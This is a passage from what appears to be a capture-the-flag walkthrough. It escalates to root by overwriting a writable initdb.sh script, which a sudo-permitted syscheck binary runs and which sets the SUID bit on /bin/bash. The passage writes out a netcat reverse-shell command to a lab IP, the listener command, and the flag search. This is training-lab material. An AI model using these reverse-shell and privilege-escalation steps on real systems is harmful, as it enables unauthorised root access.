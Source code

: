 When I run it, it seems to start the database service everytime. So the vuln is probably somewhere in initdb.sh. I can find the file with:
'find -name '*initdb*' 2>/dev/null'

It looks like all the file does is run `chmod u+s /bin/bash`

Looks like we can literally just modify that file how we want so lets put a reverseshell there too:
`echo "nc -e /bin/sh 10.10.14.232 4444" > initdb.sh`

And start a netcat with `nc -lvnp 4444`

Then run `sudo /usr/bin/syscheck` and voila reverse shell with root priviliges.

The we can do:
```
cd /
find -name '*root.txt' 2>/dev/null
```
And we find and can get the flag.
